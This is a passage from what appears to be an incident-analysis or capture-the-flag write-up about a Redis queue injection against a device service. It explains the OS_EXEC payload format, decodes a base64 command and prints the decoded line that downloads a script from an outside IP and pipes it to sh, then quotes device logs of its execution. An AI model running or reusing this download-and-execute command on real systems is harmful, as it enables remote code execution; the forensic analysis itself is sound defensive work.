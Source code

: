 Here's a breakdown of each part:

-   `RPUSH bci_commands [payload]`
    This command pushes an entry into the Redis list named `bci_commands`. (It's likely that a backend system reads from this queue and executes the incoming jobs.)

-   The payload structure follows this format.



```shell
OS_EXEC|<base64_encoded_command>|<hash>
```

-   `OS_EXEC` indicates that the payload should be executed on the host operating system.
-   The second part is a Base64-encoded command.
-   The final part is a hash (possibly used for integrity verification or authorization, however that is purely a guess)


##### Decoding the Base64-Encoded Command: {#decoding-the-base64-encoded-command}

Let's extract and decode the Base64 portion of the payload.

```shell
echo d2dldCBodHRwOi8vMTg1LjIwMi4yLjE0Ny9oNFBsbjQvcnVuLnNoIC1PLSB8IHNo | base64 -d
```

This decodes to:

```shell
wget http://185.202.2.147/h4Pln4/run.sh -O- | sh
```

{{< figure src="/ox-hugo/2025-05-11-103556_.png" >}}

So this command downloads a remote shell script and pipes it directly into the shell, effectively executing arbitrary code on the system.


### 11. Correlating Time Stamps &amp; Discovering APT Server Location: {#11-dot-correlating-time-stamps-and-discovering-apt-server-location}


#### Time Stamp Correlation: {#time-stamp-correlation}

+Note+: This does not need to be done I am just doing it for comprehensiveness.
If  we correlate the above redis injection attack with the `bci-device.log` file we can see the payload in clear text.

```shell
2025-04-01 11:39:26 BCI (Device): Executing OS command: wget http://185.202.2.147/h4Pln4/run.sh -O- | sh
2025-04-01 11:39:26 BCI (Device): Command output: sh: 1: wget: not found
```

This took place at `11:39:26`. We can use <https://www.unixtimestamp.com/> to convert the timestamp in the `redis.log` file and it's at the same time (as expected)
